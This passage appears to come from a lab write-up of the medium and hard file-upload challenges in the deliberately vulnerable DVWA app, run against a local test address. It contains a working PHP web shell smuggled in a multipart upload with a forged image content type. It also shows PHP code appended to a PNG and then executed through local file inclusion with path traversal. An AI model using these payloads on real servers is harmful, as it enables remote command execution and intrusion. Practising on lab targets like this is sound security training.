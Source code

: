 ```txt

100000
-----------------------------536677127989003954171006071
Content-Disposition: form-data; name="uploaded"; filename="b.php"
Content-Type: image/png

<?php system($_GET[cmd]);?>

-----------------------------536677127989003954171006071
Content-Disposition: form-data; name="Upload"

Upload
-----------------------------536677127989003954171006071--

```

Once modified we simply click the forward button in the tool and disable the Proxy addon.

To check for arbitrary code execution again we resort to the `ls` command, we simply visit the following URL `http://172.17.0.2/hackable/uploads/b.php?cmd=ls`.

We obtain the following result:
`a.php b.php dvwa_email.png`
#### Hard

After several unsuccessful tests, out of desperation and frustration in this particular case I consulted the specific code that executes the web server. Apparently the server does check that the uploaded file is a real image, however it is still possible to upload code, although it is not possible to execute it directly as in the previous cases, for this it will be necessary to use one of the other vulnerabilities, possibly the most useful vulnerability for this purpose is LFI since it loads arbitrary files from the web server, **executing** these as if they were PHP **although** they really are not.

The first step is to obtain an arbitrary image and give it the name `c.png`.
As a simple curiosity we have chosen to use the following image:

![[c.png]]

Now we are going to add the malicious code to the end of the image file, so that a normal image reader will ignore it, to do this we execute the command `echo "<?php system("ls") ?>" >> c.png`.

Now we simply upload our new image.

As a curiosity if we open the new image with the hexeditor tool we can see the following:

![[Pasted image 20231201130834.png]]

Once we have managed to upload the malicious code inside the web server we simply have to take advantage of any other vulnerability to execute it, as previously mentioned we have chosen LFI as it is the most appropriate (we have used the easy version of this).

We simply need to access the following link: `http://172.17.0.2/vulnerabilities/fi/?page=../../hackable/uploads/c.png`

The web will display the following content:
